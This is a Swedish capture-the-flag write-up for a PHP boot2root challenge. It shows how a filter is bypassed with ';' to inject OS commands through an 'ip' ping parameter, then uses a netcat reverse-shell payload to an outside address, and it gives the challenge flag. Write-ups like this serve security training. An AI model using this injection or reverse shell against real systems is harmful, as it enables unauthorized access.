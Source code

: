 # Boot2root: Knowit 1 - Initial

- **Skapare:** Knowit (Fredrik Ljung)
- **Poäng:** 300
- **Antal lösningar:** 15


## Beskrivning

En utvecklare testade leka lite med PHP, men glömde stänga ner webbservern.

Gå till http://13.74.143.253 och se om du kan ta dig in.

Notera: Brute-forcing kommer inte hjälpa dig att hitta flaggan! Dirb, gobuster och liknande är förbjudet.

## Flagga

SSM{knowit_1_Knowit_Secure_h4r_k0nt0r_i_SVeRige_oCh_Norg3_}

## Lösning

När man navigerar till hemsidan och kikar runt märker man att det inte finns något speciellt intressant.
Ett första steg då är att leta efter orefererade sidor. Genom att gå till `/robots.txt` så ser man `/network.php`.

När man kommer till /network.php och trycker på "click me" ser man ett ping-anrop till 8.8.8.8.
Man ser även att IPn kommer från GET parametern `ip`.
Testar man efter OS command injection med exempelvis `&` eller `|` får man till svar `Hacker attempt detected`.
Däremot om man använder `;` går det igenom.
Man kan köra `; sleep 10` för att konfirmera att det är en (blind) OS command injection.
Nästa steg är att sätta upp en lyssnare och skaffa ett shell.

Lyssnare:
```nc -nvlp 5555```

Payload:
```;nc 10.11.0.148 5555 -e /bin/bash```


När man fått ett shell på webbservern så kan man navigera till /home/www-data och läsa ut flaggan med `cat flag.txt`.

